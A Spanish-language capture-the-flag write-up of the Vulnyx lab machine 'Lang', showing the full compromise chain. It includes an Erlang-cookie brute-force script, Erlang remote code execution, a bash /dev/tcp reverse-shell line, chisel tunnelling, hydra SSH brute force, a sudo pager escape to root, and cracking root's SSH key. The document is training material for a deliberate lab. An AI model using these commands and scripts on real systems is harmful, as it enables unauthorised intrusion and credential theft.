








+++
author = "Andrés Del Cerro"
title = "Vulnyx: Lang Writeup | Hard"
date = "2024-11-27"
description = ""
tags = [
    "Vulnyx",
    "Lang",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTTP Enumeration,",
    "SNMP Enumeration,",
    "Erlang Port Mapper Daemon Enumeration",
    "Authentication Cookie Bruteforce,",
    "Python Scripting,",
    "Scripting,",
    "Erlang Cookie RCE,",
    "Reverse Port Forwarding",
    "SSH Bruteforce",
    "Abusing topal",
    "Abusing sudo",
    "Abusing pager",
    "Exfiltrating root private key"
]

+++

# Vulnyx: Lang Writeup

Welcome to my detailed writeup of the hard difficulty machine **"Lang"** on Vulnyx. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
rustscan -a 192.168.2.7 --ulimit 5000 -g
192.168.2.7 -> [22,80,4369,8080,39251]
```

```console
nmap -p22,80,4369,8080,39251 -sCV 192.168.2.7 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-27 14:35 CET
Stats: 0:01:14 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 80.00% done; ETC: 14:36 (0:00:19 remaining)
Nmap scan report for 192.168.2.7
Host is up (0.00048s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
80/tcp    open  http    Apache httpd 2.4.61 ((Debian))
|_http-server-header: Apache/2.4.61 (Debian)
|_http-title: Site doesn't have a title (text/html).
4369/tcp  open  epmd    Erlang Port Mapper Daemon
| epmd-info:
|   epmd_port: 4369
|   nodes:
|_    n0d3: 39251
8080/tcp  open  http    Apache httpd 2.4.61 ((Debian))
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.61 (Debian)
39251/tcp open  unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 141.50 seconds
```
# UDP Enumeration

```console
sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 192.168.2.7 -oN allPorts.UDP
[sudo] password for kali:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-27 14:36 CET
Nmap scan report for 192.168.2.7
Host is up (0.00033s latency).
Not shown: 1493 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
161/udp   open   snmp
18676/udp closed unknown
20791/udp closed unknown
21847/udp closed netspeak-cs
22124/udp closed unknown
22611/udp closed unknown
49211/udp closed unknown
MAC Address: 08:00:27:5E:FB:BB (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.87 seconds
```

Del escaneo inicial vemos un par de cosas interesantes.

Primero, se está usando el puerto 4369 y hace referencia a un servicio llamado `Erlang Port Mapper Daemon`, nos indica que en el puerto `39251` se encuentra un nodo y vemos que se puerto también está abierto.

Segundo, vemos que por UDP está abierto el puerto 161, correspondiente al servicio SNMP.

# HTTP Enumeration

Vamos a empezar de "menos a mas", `whatweb` no nos reporta nada interesante.
```console
whatweb http://192.168.2.7
http://192.168.2.7 [200 OK] Apache[2.4.61], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.61 (Debian)], IP[192.168.2.7]
```

Esta no es la típica página de que Apache funciona, pero bueno...


Con `feroxbuster` encontramos un par de recursos interesantes.
```console
feroxbuster -u http://192.168.2.7/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 1 -t 100

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.2.7/
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 1
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      273c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        7l       28w      186c http://192.168.2.7/
301      GET        9l       28w      308c http://192.168.2.7/api => http://192.168.2.7/api/
301      GET        9l       28w      315c http://192.168.2.7/javascript => http://192.168.2.7/javascript/
```

Seguimos fuzzeando y vemos que la API tiene dos versiones.
```console
feroxbuster -u http://192.168.2.7/api -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 1 -t 100

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.2.7/api
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 1
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      273c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      308c http://192.168.2.7/api => http://192.168.2.7/api/
301      GET        9l       28w      311c http://192.168.2.7/api/v2 => http://192.168.2.7/api/v2/
301      GET        9l       28w      311c http://192.168.2.7/api/v1 => http://192.168.2.7/api/v1/
```

Intenté buscar un `swagger.json` por si se estaba utilizando por detrás pero no encontré este recurso. 


# Enumerating SNMP
Vamos a enumerar el servicio SNMP antes de pasar a la acción con erlang.

Intenté probar con la típica community string `public` pero vemos que no es válida.
```console
snmpbulkwalk -c public -v2c 192.168.2.7
Timeout: No Response from 192.168.2.7
```

Vamos a sacar la mítica `onesixtyone` en acción para hacer fuerza bruta e intentar descubrir la community string.

Vamos a utilizar la lista `common-snmp-community-strings-onesixtyone.txt` de `SecLists` y encontramos una community string.
```console
onesixtyone -c /usr/share/wordlists/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt 192.168.2.7
Scanning 1 hosts, 120 communities
192.168.2.7 [manager] Linux lang 5.10.0-32-amd64 #1 SMP Debian 5.10.223-1 (2024-08-10) x86_64
```

Ahora con `snmpbulkwalk` podemos enumerar todos los datos a los que podemos acceder con esta community string.
```console
snmpbulkwalk -c manager -v2c 192.168.2.7
```

Recorriendo el archivo encontramos algo interesante.


- **`-sname n0d3@megalang`**: Define el nombre corto (`sname`) del nodo Erlang como `n0d3@megalang`. Esto se usa para la comunicación entre nodos Erlang.
- **`-noinput`**: Impide que el nodo espere entrada del usuario.
- **`-eval "timer:sleep(infinity)"`**: Ejecuta la expresión Erlang `timer:sleep(infinity)`, que hace que el programa se quede "dormido" indefinidamente sin consumir CPU.

El caso, hemos encontrado un dominio llamado `megalang`, vamos a agregarlo al `/etc/hosts`

# Erlang Port Mapper Daemon Enumeration
Existe [este artículo en HackTricks](https://book.hacktricks.xyz/network-services-pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd) que nos revela una cosa bastante interesante.

Podemos ganar ejecución remota de comandos si conseguimos la cookie de autenticación. Esta cookie se genera de forma automática pero también puede ser modificada por el usuario y poner una cookie mas fácil.

Vamos a crear un script en python para hacer fuerza bruta, primero vamos a instalar `erlang` en nuestro sistema.
```console
sudo apt-get install erlang -y
```

## Authentication Cookie Bruteforce Script
Una vez instalado, podemos utilizar este script simple en python que he creado para probar un diccionario de contraseñas.
```python
#!/usr/bin/python3
import os
import sys

NODE_NAME = "n0d3"
DOMAIN_NAME = "megalang"
DICTIONARY = "/usr/share/wordlists/rockyou.txt"

# Check if the cookie is valid
def check_cookie(cookie):
    cmd = "erl_call -c <COOKIE> -sname <NODE_NAME> -n <NODE_NAME>@<DOMAIN_NAME> -a 'erlang node []' > /dev/null 2>/dev/null".replace("<COOKIE>", cookie).replace("<NODE_NAME>", NODE_NAME).replace("<DOMAIN_NAME>", DOMAIN_NAME)
    if os.system(cmd) == 0:
        return True
    return False

def brute():
    found = False
    with open(DICTIONARY, "r") as file:
        for line in file:
            password = line.strip()
            if check_cookie(password):
                print("[+] Authentication Cookie found: %s" % password)
                found = True
                sys.exit(0)
    if Found != True:
        print("[-] Authentication Cookie not found")

if __name__ == "__main__":
    brute()
```

El comando que se ejecuta nos devuelve un código de estado `0` si el comando es exitoso, en este caso nos devuelve el nombre del nodo con su dominio.
En caso contrario, nos devuelve un código de estado `1` y nos devolvería un error. Con esta simple comprobación podemos hacer el script para hacer fuerza bruta.

Y tenemos suerte y encontramos la cookie de autenticación a este nodo.
```console
python3 brute.py
[+] Authentication Cookie found: poohbear
```

# Erlang Cookie RCE
Y siguiendo el artículo en HackTricks conseguimos ejecución remota de comandos como el usuario `killer`
```console
erl -setcookie poohbear -remsh n0d3@megalang
Erlang/OTP 25 [erts-13.2.2.9] [source] [64-bit] [smp:32:4] [ds:32:4:10] [async-threads:1] [jit:ns]

Eshell V11.1.8  (abort with ^G)
(n0d3@megalang)1> os:cmd("id").
"uid=1000(killer) gid=1000(killer) grupos=1000(killer)\n"
```

Entonces ahora podemos ponernos en escucha con `pwncat-cs` por el puerto 443.
```console
pwncat-cs -lp 443
```

Y enviarnos una reverse shell utilizando el método anterior para ejecutar comandos.
```console
erl -setcookie poohbear -remsh n0d3@megalang
Erlang/OTP 25 [erts-13.2.2.9] [source] [64-bit] [smp:32:4] [ds:32:4:10] [async-threads:1] [jit:ns]

Eshell V11.1.8  (abort with ^G)
(n0d3@megalang)1> os:cmd("bash -c 'bash -i >& /dev/tcp/192.168.2.3/443 0>&1'")
```

Y ganamos una consola interactiva en el nodo que es la máquina anfitriona, es decir, no estamos en ningún contenedor ni nada.
```console
(remote) killer@lang:/home/killer$ id
uid=1000(killer) gid=1000(killer) grupos=1000(killer)
(remote) killer@lang:/home/killer$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:5e:fb:bb brd ff:ff:ff:ff:ff:ff
    inet 192.168.2.7/24 brd 192.168.2.255 scope global dynamic enp0s3
       valid_lft 550sec preferred_lft 550sec
    inet6 fe80::a00:27ff:fe5e:fbbb/64 scope link
       valid_lft forever preferred_lft forever
```

Podemos leer la flag de usuario.
```console
(remote) killer@lang:/home/killer$ cat user.txt
19d0cc1d2dc911e8d...
```

# User Pivoting
Encontramos otro usuario llamado `satanas` a parte de nuestro usuario actual.
```console
(remote) killer@lang:/home/killer$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
killer:x:1000:1000:killer:/home/killer:/bin/bash
satanas:x:1001:1001:satanas:/home/satanas:/bin/bash
```

No tenemos la credencial del usuario `killer` para ejecutar un `sudo -l`.

Tampoco encontramos binarios con permisos de SUID.
```console
(remote) killer@lang:/etc/apache2/sites-available$ find / -type f -user killer 2>/dev/null | grep -v "proc"
/home/killer/.selected_editor
/home/killer/.profile
/home/killer/.bash_logout
/home/killer/user.txt
/home/killer/.erlang.cookie
/home/killer/.bashrc
/var/mail/killer
```

Encontramos un correo para este usuario pero no tiene nada interesante.
```console
(remote) killer@lang:/etc/apache2/sites-available$ cat /var/mail/killer
From MAILER-DAEMON Tue Aug 20 18:52:22 2024
Return-path: <>
Envelope-to: killer@chain
Delivery-date: Tue, 20 Aug 2024 18:52:22 +0200
Received: from Debian-exim by lang with local (Exim 4.94.2)
	id 1sgS5m-0000Fm-NH
	for killer@chain; Tue, 20 Aug 2024 18:52:22 +0200
X-Failed-Recipients: user@chain
Auto-Submitted: auto-replied
From: Mail Delivery System <Mailer-Daemon@chain>
To: killer@chain
References: <E1sgS5m-0000Fj-Kk@lang>
Content-Type: multipart/report; report-type=delivery-status; boundary=1724172742-eximdsn-174919641
MIME-Version: 1.0
Subject: Mail delivery failed: returning message to sender
Message-Id: <E1sgS5m-0000Fm-NH@lang>
Date: Tue, 20 Aug 2024 18:52:22 +0200

--1724172742-eximdsn-174919641
Content-type: text/plain; charset=us-ascii

This message was created automatically by mail delivery software.

A message that you sent could not be delivered to one or more of its
recipients. This is a permanent error. The following address(es) failed:

  user@chain
    (generated from root@chain)
    Unrouteable address

--1724172742-eximdsn-174919641
Content-type: message/delivery-status

Reporting-MTA: dns; lang

Action: failed
Final-Recipient: rfc822;root@chain
Status: 5.0.0

--1724172742-eximdsn-174919641
Content-type: message/rfc822

Return-path: <killer@chain>
Received: from killer by lang with local (Exim 4.94.2)
	(envelope-from <killer@chain>)
	id 1sgS5m-0000Fj-Kk
	for root@chain; Tue, 20 Aug 2024 18:52:22 +0200
To: root@chain
Auto-Submitted: auto-generated
Subject: *** SECURITY information for lang ***
From: killer <killer@chain>
Message-Id: <E1sgS5m-0000Fj-Kk@lang>
Date: Tue, 20 Aug 2024 18:52:22 +0200

lang : Aug 20 16:52:22 : killer : a password is required ; TTY=pts/0 ; PWD=/home/killer ; USER=root ; COMMAND=list


--1724172742-eximdsn-174919641--
```

Vemos dos puertos interesantes, el 25 y el 222.
```console
(remote) killer@lang:/etc/apache2/sites-available$ ss -tulnp
Netid  State   Recv-Q   Send-Q     Local Address:Port      Peer Address:Port  Process
udp    UNCONN  0        0                0.0.0.0:161            0.0.0.0:*
udp    UNCONN  0        0                0.0.0.0:68             0.0.0.0:*
tcp    LISTEN  0        128              0.0.0.0:22             0.0.0.0:*
tcp    LISTEN  0        20             127.0.0.1:25             0.0.0.0:*
tcp    LISTEN  0        128            127.0.0.1:222            0.0.0.0:*
tcp    LISTEN  0        128              0.0.0.0:39251          0.0.0.0:*      users:(("beam.smp",pid=425,fd=17))
tcp    LISTEN  0        20                 [::1]:25                [::]:*
tcp    LISTEN  0        511                    *:8080                 *:*
tcp    LISTEN  0        511                    *:80                   *:*
tcp    LISTEN  0        4096                   *:4369                 *:*
```

Viendo que hemos visto un correo, suponemos que el 25/TCP es el SMTP, pero no tenemos ni idea de que es el puerto 222.

Intentando conectarme con `netcat` vemos una cabecera de SSH.
```console
(remote) killer@lang:/etc/apache2/sites-available$ nc 127.0.0.1 222
SSH-2.0-OpenSSH_8.4p1 Debian-5+deb11u3
```

Así que ya sabemos que este servicio pertenece al SSH, un poco extraño ya que ya tenemos el puerto 22/TCP que pertenece al SSH y además la misma versión.

Revisando los archivos de configuración de SSH en `/etc/ssh` podemos ver el fichero `sshd_config` que contiene el archivo de configuración del servidor SSH.

Y vemos esta parte del archivo de configuración 
```text
Match LocalPort 22
    #DenyUsers satanas killer
    PasswordAuthentication no

Match LocalPort 222
    AllowUsers satanas
```

Por el puerto 22 no podemos iniciar sesión con contraseña, y en el puerto 222 si que podemos utilizar esta autenticación, y además solo `satanas` puede conectarse en este puerto.

# Reverse Port Forwarding + SSH Dictionary Attack
Como no he encontrado ninguna contraseña y ya me he hecho 4 máquinas de esta plataforma y veo que les gusta mucho la fuerza bruta, vamos con `chisel` a hacer un Port-Forwarding e intentar hacer un ataque por diccionario con `hydra` a este puerto.

Voy a hacer uso de la función `upload` de `pwncat-cs` para subir el binario de `chisel`

```console
(remote) killer@lang:/tmp$
(local) pwncat$ upload /usr/share/chisel
./chisel ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 8.7/8.7 MB • 2.3 MB/s • 0:00:00
[15:49:54] uploaded 8.65MiB in 4.11 seconds                                                            upload.py:76
(local) pwncat$
(remote) killer@lang:/tmp$ ls -la
total 8492
drwxrwxrwt 10 root   root      4096 nov 27 15:49 .
drwxr-xr-x 18 root   root      4096 ago 20 17:47 ..
-rw-r--r--  1 killer killer 8654848 nov 27 15:49 chisel
```

En nuestra máquina de atacante vamos a estar en escucha por el puerto 1234.
```console
/usr/share/chisel server -p 1234 --reverse
2024/11/27 15:50:51 server: Reverse tunnelling enabled
2024/11/27 15:50:51 server: Fingerprint wsaui2NmZMK41w9t2VdZf8XFwyAsJI6dK11orR9LmZw=
2024/11/27 15:50:51 server: Listening on http://0.0.0.0:1234
```

Ahora en la máquina víctima nos conectamos a nuestra máquina de atacante y nos compartimos el puerto `222` de la máquina víctima a nuestro puerto local `222`
```console
(remote) killer@lang:/tmp$ ./chisel client 192.168.2.3:1234 R:222:127.0.0.1:222
2024/11/27 15:51:29 client: Connecting to ws://192.168.2.3:1234
2024/11/27 15:51:29 client: Connected (Latency 685.787µs)
```

Entonces ahora significa, que nuestro puerto local `222` es el puerto `222` de la máquina víctima, podemos comprobarlo rápidamente con `nmap`
```console
nmap -p222 127.0.0.1 -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-27 15:52 CET
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00013s latency).

PORT    STATE SERVICE VERSION
222/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds
```

Ahora con `hydra` podernos hacer un ataque con diccionario a este puerto utilizando el nombre de usuario `satanas` y al rato conseguimos una credencial.
```console
hydra -l satanas -P /usr/share/wordlists/rockyou.txt 127.0.0.1 ssh -t 64 -s 222 -V -I
.....
[ATTEMPT] target 127.0.0.1 - login "satanas" - pass "buttercup" - 703 of 14344436 [child 11] (0/37)
[ATTEMPT] target 127.0.0.1 - login "satanas" - pass "nichole" - 704 of 14344436 [child 39] (0/37)
[ATTEMPT] target 127.0.0.1 - login "satanas" - pass "bambam" - 705 of 14344436 [child 33] (0/37)
[ATTEMPT] target 127.0.0.1 - login "satanas" - pass "nothing" - 706 of 14344436 [child 40] (0/37)
[ATTEMPT] target 127.0.0.1 - login "satanas" - pass "glitter" - 707 of 14344436 [child 41] (0/37)
[222][ssh] host: 127.0.0.1   login: satanas   password: nothing
```

En la máquina víctima no tenemos permiso para ejecutar el binario `su`. Así que tenemos que acceder mediante el SSH del puerto compartido.
```console
(remote) killer@lang:/tmp$ su satanas
bash: /usr/bin/su: Permiso denegado
```

```console
sshpass -p 'nothing' ssh satanas@127.0.0.1 -p 222
satanas@lang:~$ id
uid=1001(satanas) gid=1001(satanas) grupos=1001(satanas)
```

# Privilege Escalation
## Abusing sudo `topal` binary + pager 
Vemos que podemos ejecutar como `root` y sin necesidad de contraseña un binario llamado `topal`
```console
satanas@lang:~$ sudo -l
Matching Defaults entries for satanas on lang:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User satanas may run the following commands on lang:
    (root) NOPASSWD: /usr/bin/topal
```

propósito principal es facilitar la encriptación, desencriptación, firma y verificación de mensajes de correo electrónico usando **PGP** (Pretty Good Privacy) y **S/MIME**.

Entonces, si encripta y desencripta mensajes de correo, debe de existir alguna función para poder leer archivos.

Podemos ejecutar este comando donde `test.txt` es un archivo que he creado en forma de prueba.
```console
topal /tmp/test.txt
```

Dándole a todas las teclas (a veces es efectivo), vemos que la `v` nos permite visualizar el contenido del fichero.


Y además se utiliza el pager por defecto de linux (`less`), esto significa que si ahora, escribimos la secuencia `!COMANDO`, podemos ejecutar un comando como el usuario que está ejecutando el binario de `topal`, en este caso `satanas`




Y vemos que podemos ejecutar el comando.


Ahora, vamos a ejecutar `topal` como `root` y a hacer lo mismo, pero esta vez ejecutando una `bash`.
```console
sudo topal /tmp/test.txt
```

Le damos a la `v` y lanzamos el siguiente comando a través del pager.


Y nos convertimos en `root` y podemos leer su flag, que en esta máquina se encuentra en `/root/r00000000t.txt` por alguna razón
```console
root@lang:/tmp# id
uid=0(root) gid=0(root) grupos=0(root)
root@lang:~# ls -la
total 40
drwx------  6 root root 4096 ago 20 19:01 .
drwxr-xr-x 18 root root 4096 ago 20 17:47 ..
lrwxrwxrwx  1 root root    9 abr 23  2023 .bash_history -> /dev/null
-rw-------  1 root root 3526 ene 15  2023 .bashrc
drwxr-xr-x  3 root root 4096 ago  1  2023 .cache
drw-------  3 root root 4096 ene 15  2023 .local
-rw-------  1 root root  161 jul  9  2019 .profile
-r--------  1 root root   33 ago 20 19:01 r00000000t.txt
-rw-r--r--  1 root root   66 ago 20 17:49 .selected_editor
drwx------  2 root root 4096 ago 20 17:57 .ssh
drwx------  2 root root 4096 nov 27 16:28 .topal
root@lang:~# cat r00000000t.txt
a91fea27fdcbf80...
```

## Exfiltrating `root` private key + Cracking the passphrase
También podríamos haber extraído la clave privada de `root` situada en `/root/.ssh/id_rsa`.
```console
sudo topal /root/.ssh/id_rsa
```

Le damos a la tecla `v` y nos la copiamos.


Le asignamos los permisos necesarios a la clave privada.
```console
chmod 600 id_rsa.root
```

El problema es que esta clave privada está protegida por passphrase, así que con `ssh2john` podemos extraer el hash.

```console
ssh2john id_rsa.root > hash
```

Y con `john` podemos intentar crackearlo.
```console
john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
killer1          (id_rsa.root)
1g 0:00:00:48 DONE (2024-11-27 16:34) 0.02082g/s 36.65p/s 36.65c/s 36.65C/s 2hot4u..welcome1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Teniendo la passphrase de la clave privada y como por el puerto 22/TCP que correspondía al SSH podemos iniciar sesión como cualquier usuario pero tiene que ser utilizando una clave privada, podemos iniciar sesión como `root`

```console
ssh root@192.168.2.7 -i id_rsa.root
Enter passphrase for key 'id_rsa.root':
root@lang:~# id
uid=0(root) gid=0(root) grupos=0(root)
```

¡Y ya estaría!

Happy Hacking! 🚀